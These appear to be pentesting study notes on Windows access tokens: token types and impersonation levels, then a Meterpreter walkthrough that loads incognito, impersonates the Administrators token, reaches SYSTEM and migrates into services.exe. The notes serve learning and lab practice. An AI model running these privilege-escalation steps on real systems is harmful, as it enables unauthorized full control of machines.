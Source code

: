 https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens <- **Check.**
https://www.exploit-db.com/papers/42556 <-**Check.**

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

Access token consists of:
   - user SIDs(security identifier)
   - group SIDs
   - privileges
  
  
Two types of access tokens:
   - primary access tokens: those associated with a user account that are generated on log on
   - impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process
 						- SecurityAnonymous: current user/client cannot impersonate another user/client
 						- SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
 						- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
 						- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

VICTIM:
```powershell
C:\> whoami/priv
		SeDebugPrivilege                Debug programs                            Enabled		<- Exploitable
		SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
		SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
		SeImpersonatePrivilege          Impersonate a client after authentication Enabled 		<- Exploitable
```

ATTACKER:
```bash
$ CTRL + Z

$ meterpreter > load incognito

$ list_tokens -g 
	BUILTIN\Administrators		<- Exploitable
	BUILTIN\IIS_IUSRS

$ meterpreter > impersonate_token "BUILTIN\Administrators"

$ getuid
	Server username: NT AUTHORITY\SYSTEM

$ ps
	 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
	 
$ migrate 668(PID)

---CHANGE TO SHELL AND CHECK WHOAMI--
```